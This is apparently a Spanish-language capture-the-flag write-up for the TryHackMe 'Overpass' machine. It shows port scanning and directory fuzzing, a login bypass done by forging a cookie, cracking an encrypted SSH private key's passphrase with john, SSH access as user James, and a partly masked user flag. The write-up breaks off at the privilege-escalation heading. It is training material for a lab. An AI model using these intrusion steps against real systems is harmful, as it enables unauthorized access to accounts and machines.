 ## TryHackMe  <> Overpass

![image](https://github.com/Esevka/CTF/assets/139042999/262f5142-59aa-4483-b9ba-6034c32a93a6)

Enlace Maquina: https://tryhackme.com/room/overpass

Enunciado : 

  - Conseguir Flags(user.txt y root.txt)
  - BONUS --> Conseguir codigo de subscripcion.
---

## Escaneo de puertos (NMAP).

-Segun el ttl obtenito a la hora de lanzar un ping a la maquina victima podriamos decir que es una maquina ---> Linux.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/nmap]
    └─# ping 10.10.181.35 -c1
    PING 10.10.181.35 (10.10.181.35) 56(84) bytes of data.
    64 bytes from 10.10.181.35: icmp_seq=1 ttl=63 time=582 ms
    
    --- 10.10.181.35 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 581.984/581.984/581.984/0.000 ms

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.181.35 -oN open_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-12 11:29 CET

    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

-Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/nmap]
    └─# nmap -p 22,80 -sCV -n -Pn 10.10.181.35 -oN info_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-12 11:35 CET
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
    |   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
    |_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
    
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    |_http-title: Overpass
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-Segun el lauchpad del servicio OpenSSH que tenemos corriendo en el puerto 22.

  ![image](https://github.com/Esevka/CTF/assets/139042999/1bf3f6e8-0dbc-4f89-a3e3-d9f95bca992b)


## Analizamos la informacion obtenida.

-Por el momento tenemos:

  - Maquina Linux (Ubuntu Bionic 18.04)
  - Puertos 80(Http) y 22 (SSH)

-Puerto 80(http).

  - Web titulada Overpass
  
    ![image](https://github.com/Esevka/CTF/assets/139042999/5a258f78-d81a-4cac-959e-930ed30e9ece)

  - En el apartado --> About Us, encontramos posibles usuarios.

    ![image](https://github.com/Esevka/CTF/assets/139042999/2e11e1f2-9212-4358-98cf-3ca15bfc95fa)

  - En el apartado --> Downloads, encontramos la app para diferentes sistemas y el codigo original de la app.

    ![image](https://github.com/Esevka/CTF/assets/139042999/88593c8d-3509-4b30-9414-4a2921f7afc8)

  - Fuzzeamos la web en busqueda de directorios con la ayuda de --> Gobuster.

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
        └─# gobuster dir -u http://10.10.181.35/ -w /usr/share/wordlists/dirb/common.txt -o fuzz
        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        /aboutus              (Status: 301) [Size: 0] [--> aboutus/]
        /admin                (Status: 301) [Size: 42] [--> /admin/]  ---> directorio que nos interesa.
        /css                  (Status: 301) [Size: 0] [--> css/]
        /downloads            (Status: 301) [Size: 0] [--> downloads/]
        /img                  (Status: 301) [Size: 0] [--> img/]
        /index.html           (Status: 301) [Size: 0] [--> ./]

  - Cargamos el directorio y encontramos un panel de login.

    ![image](https://github.com/Esevka/CTF/assets/139042999/28d69fc5-7f5a-42e1-a34a-82551fd94329)

    - Vamos a analizar el codigo web del panel de login, en busca de algun fallo.
   
      ![image](https://github.com/Esevka/CTF/assets/139042999/fd4e81fe-14c3-4ce3-8665-adb8fd007602)

    - Creamos una cookie para ver si podemos saltarnos el panel de login y recargamos la web. Bingo obtenemos una private key.
   
      ![image](https://github.com/Esevka/CTF/assets/139042999/3c07e9ad-3796-46e9-99a3-d1dc1b07ee93)

-Puerto 22(SSH)

-Copiamos la clave a un fichero en nuestra maquina y le damos permiso solo de lectura para nuestro usuario.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# echo '-----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337
    
    LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
    JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
    [...]
    2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
    -----END RSA PRIVATE KEY-----'> id_rsa 

    
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# chmod 400 id_rsa                                                                                                                                                    
                                                                                                                                                              
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ls -la
    -r-------- 1 root root 1766 Nov 12 12:42 id_rsa

-Conectamos por ssh utilizando la id_rsa del usuario ---> James
   
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ssh -i id_rsa james@10.10.181.35
    The authenticity of host '10.10.181.35 (10.10.181.35)' can't be established.
    ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
    This host key is known by the following other names/addresses:
        ~/.ssh/known_hosts:11: [hashed name]
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.181.35' (ED25519) to the list of known hosts.
    Enter passphrase for key 'id_rsa': 

Nos pide passphrase para la id_rsa, cosa que no tenemos.

    La "passphrase" (frase de contraseña) para una clave SSH (Secure Shell) es una capa adicional de seguridad que se puede agregar a la clave privada.

-Intentamos Crakear la pass de is_rsa.

  1)Convertimos id_rsa a un formato entendible para john
  
    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ssh2john id_rsa > john_id_rsa

  2)Crakeamos john_id_rsa

    ┌──(root㉿kali)-[~kali/…/ctf/try_ctf/overpass/contend]
		└─# john john_idrsa --wordlist=/usr/share/wordlists/rockyou.txt 
		Using default input encoding: UTF-8
		Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
		Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
		Cost 2 (iteration count) is 1 for all loaded hashes
		Will run 3 OpenMP threads
		Press 'q' or Ctrl-C to abort, almost any other key for status
		james----13          (id_rsa)  

  3)Obtenemos session en la maquina victima mediante SSH.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/overpass/files]
    └─# ssh -i id_rsa james@10.10.246.94
    Enter passphrase for key 'id_rsa': 
    Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon Nov 13 05:59:54 UTC 2023
    
      System load:  0.0                Processes:           88
      Usage of /:   22.3% of 18.57GB   Users logged in:     0
      Memory usage: 12%                IP address for eth0: 10.10.246.94
      Swap usage:   0%
    
    
    47 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
    james@overpass-prod:~$ whoami
    james

## Obtenemos Flag y elevamos privilegios

-Leemos flag de usuario.

    james@overpass-prod:~$ cat user.txt 
    thm{65c1aaf000506e56-------1e6bf7}





    

  

